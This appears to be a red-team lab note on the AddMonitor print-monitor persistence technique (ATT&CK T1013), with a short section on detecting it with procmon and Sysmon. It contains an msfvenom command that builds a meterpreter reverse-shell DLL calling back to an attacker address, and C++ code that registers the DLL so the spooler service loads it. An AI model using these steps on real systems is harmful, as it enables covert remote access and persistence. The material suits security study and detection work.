





# T1013: AddMonitor\(\)

## Execution

Generating a 64-bit meterpreter payload to be injected into the spoolsv.exe:


```csharp
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f dll > evil64.dll
```


Writing and compiling a simple C++ code that will register the monitor port:


```cpp
#include "stdafx.h"
#include "Windows.h"

int main() {	
	MONITOR_INFO_2 monitorInfo;
	TCHAR env[12] = TEXT("Windows x64");
	TCHAR name[12] = TEXT("evilMonitor");
	TCHAR dll[12] = TEXT("evil64.dll");
	monitorInfo.pName = name;
	monitorInfo.pEnvironment = env;
	monitorInfo.pDLLName = dll;
	AddMonitor(NULL, 2, (LPBYTE)&monitorInfo);
	return 0;
}
```






Move evil64.dll to `%systemroot%` and execute the compiled `monitor.cpp`.

## Observations

Upon launching the compiled executable and inspecting the victim machine with procmon, we can see that the evil64.dll is being accessed by the spoolsvc:





which eventually spawns a rundll32 with meterpreter payload, that initiates a connection back to the attacker:





The below confirms the procmon results explained above:



Sysmon commandline arguments and network connection logging to the rescue:


## References










